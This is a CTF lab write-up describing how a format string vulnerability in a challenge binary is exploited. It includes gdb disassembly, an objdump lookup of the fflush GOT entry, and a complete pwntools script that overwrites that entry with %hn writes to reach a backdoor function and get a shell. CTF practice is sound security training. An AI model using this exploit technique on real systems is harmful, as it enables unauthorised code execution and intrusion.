





# **Final Format**
- This ctf seemed similar to other we had done. The server return the string we wrote.
- It's also visible that there a format string vulnerability by writing "%x":

- Analysing the program checksec:

- We can see that there is a canary, so no buffer overflow.
- We can also see that there is no PIE, which means that there is no randomization of positions in memory. This will probably used in our exploit.
- Next thing to do is to run gdb in the program.

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804926d <+0>:	endbr32 
   0x08049271 <+4>:	push   ebp
   0x08049272 <+5>:	mov    ebp,esp
   0x08049274 <+7>:	push   ebx
   0x08049275 <+8>:	sub    esp,0x40
   0x08049278 <+11>:	call   0x8049170 <__x86.get_pc_thunk.bx>
   0x0804927d <+16>:	add    ebx,0x2d83
   0x08049283 <+22>:	mov    eax,gs:0x14
   0x08049289 <+28>:	mov    DWORD PTR [ebp-0x8],eax
   0x0804928c <+31>:	xor    eax,eax
   0x0804928e <+33>:	lea    eax,[ebx-0x1fd8]
   0x08049294 <+39>:	push   eax
   0x08049295 <+40>:	call   0x80490b0 <printf@plt>
   0x0804929a <+45>:	add    esp,0x4
   0x0804929d <+48>:	mov    eax,DWORD PTR [ebx-0x4]
   0x080492a3 <+54>:	mov    eax,DWORD PTR [eax]
   0x080492a5 <+56>:	push   eax
   0x080492a6 <+57>:	call   0x80490c0 <fflush@plt>
   0x080492ab <+62>:	add    esp,0x4
   0x080492ae <+65>:	lea    eax,[ebp-0x44]
   0x080492b1 <+68>:	push   eax
   0x080492b2 <+69>:	lea    eax,[ebx-0x1fb8]
   0x080492b8 <+75>:	push   eax
   0x080492b9 <+76>:	call   0x8049110 <__isoc99_scanf@plt>
   0x080492be <+81>:	add    esp,0x8
   0x080492c1 <+84>:	lea    eax,[ebx-0x1fb3]
   0x080492c7 <+90>:	push   eax
   0x080492c8 <+91>:	call   0x80490b0 <printf@plt>
   0x080492cd <+96>:	add    esp,0x4
   0x080492d0 <+99>:	lea    eax,[ebp-0x44]
   0x080492d3 <+102>:	push   eax
   0x080492d4 <+103>:	call   0x80490b0 <printf@plt>
   0x080492d9 <+108>:	add    esp,0x4
   0x080492dc <+111>:	mov    eax,DWORD PTR [ebx-0x4]
   0x080492e2 <+117>:	mov    eax,DWORD PTR [eax]
   0x080492e4 <+119>:	push   eax
   0x080492e5 <+120>:	call   0x80490c0 <fflush@plt>
   0x080492ea <+125>:	add    esp,0x4
   0x080492ed <+128>:	mov    eax,0x0
   0x080492f2 <+133>:	mov    edx,DWORD PTR [ebp-0x8]
   0x080492f5 <+136>:	xor    edx,DWORD PTR gs:0x14
   0x080492fc <+143>:	je     0x8049303 <main+150>
   0x080492fe <+145>:	call   0x8049390 <__stack_chk_fail_local>
   0x08049303 <+150>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x08049306 <+153>:	leave  
   0x08049307 <+154>:	ret    
End of assembler dump.
```

- By looking at this, we can say that the program prints the string "There is
nothing to see here...", calls scanf, prints the string "You gave me this:" and another
printf with the buffer that contains the user input.
- Another thing we found was this old_backdoor function with the "info function". By the name of it, it will be useful. It will probably give us shell access.

- So by then we already knew we were going. We needed to use the format string vulnerability to access this old_backdoor function. 
- Next thing to do was to discover the size of the scanf. Using a break at the scanf in the gdb, we discovered that it take up to 60 bytes.

- Now we just needed the address of the fflush address.
- To do that we used this:
```
objdump -R program | grep fflush
```


- With all the information we needed to construct a script.
- Using the information in this site:
    - http://www.linuxfocus.org/Portugues/July2001/article191.shtml

- We contructed this script:
```py
from pwn import *

p = remote('ctf-fsi.fe.up.pt', 4007)
	
content = bytearray(0x00 for i in range(60))

content[0:16] = (0xaaaaaaaa).to_bytes(4,byteorder='little')
content[4:8] = (0x0804c012).to_bytes(4,byteorder='little')
content[8:12] = (0xaaaaaaaa).to_bytes(4,byteorder='little')
content[12:16] = (0x0804c010).to_bytes(4,byteorder='little')

back1 = 0x0804 - 16
back2 = 0x9236 - 0x0804
string = "%." + str(back1) + "x%hn%." + str(back2) + "x%hn"

content[16:16+len(string)] = (string).encode('latin1')

p.recvuntil(b"...")
p.sendline(content)
p.interactive()
```
- Running this script, we get shell access and we can reach the flag.txt.
